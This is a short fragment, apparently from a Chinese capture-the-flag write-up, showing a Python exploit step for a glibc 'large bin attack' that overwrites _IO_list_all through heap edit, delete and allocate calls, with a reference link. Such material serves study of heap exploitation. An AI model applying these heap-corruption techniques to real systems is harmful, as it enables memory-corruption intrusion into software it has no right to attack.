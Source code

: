 >**large bin attack**  修改 `_IO_list_all`

```python
    edit(8,0x20,flat([0,0,0,libc.sym["_IO_list_all"]-0x20]))
    print("heap base : ",hex(heap_base))
    #debu()
    delete(4)
    add(0x458) #4
```

参考:

[https://kagehutatsu.com/?p=951](https://kagehutatsu.com/?p=951)